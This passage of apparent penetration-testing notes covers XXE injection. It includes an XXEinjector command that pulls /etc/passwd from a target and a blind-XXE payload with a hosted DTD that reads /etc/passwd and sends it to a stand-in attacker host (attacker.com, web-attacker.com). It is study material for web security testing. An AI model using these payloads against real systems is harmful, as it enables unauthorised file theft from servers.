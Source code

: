 
Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write XXEINJECT after it as a position locator for the tool:
```
    <?xml version="1.0" encoding="UTF-8" ?>
    XXEINJECT
```

`$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter`


`$ cat Logs/10.129.201.94/etc/passwd.log `

    

# Blind XXE to Exfiltrate Data


You can host a dtd file on your attack server and force the vulnerable application to load the DTD.

- inject the ssrf code in page`s xml 
- call the parameter entity inside the dtd to trigger the request

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://attacker.com/mal.dtd"> %xxe;]>
```

- the hosted dtd will look like :

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- the file parameter entity specifies a file to exfiltrate

- eval parameter entity specifies a string that when invoked will dynamically create a new parameter entity called exfiltrate.This is only allowed in external dtd`s .

    - ! Using is a parameter entity inside the definition of another parameter entity is forbiden in most cases in internal dtd`s

    - A work around would be to redefine a parameter entity inside the internal dtd, that is declared in the external one.

- exfiltrate then is called and a new request is made with the file data appended to the url as url Parameters.



# XInclude

Xinclude is a way for xml documents to be merged

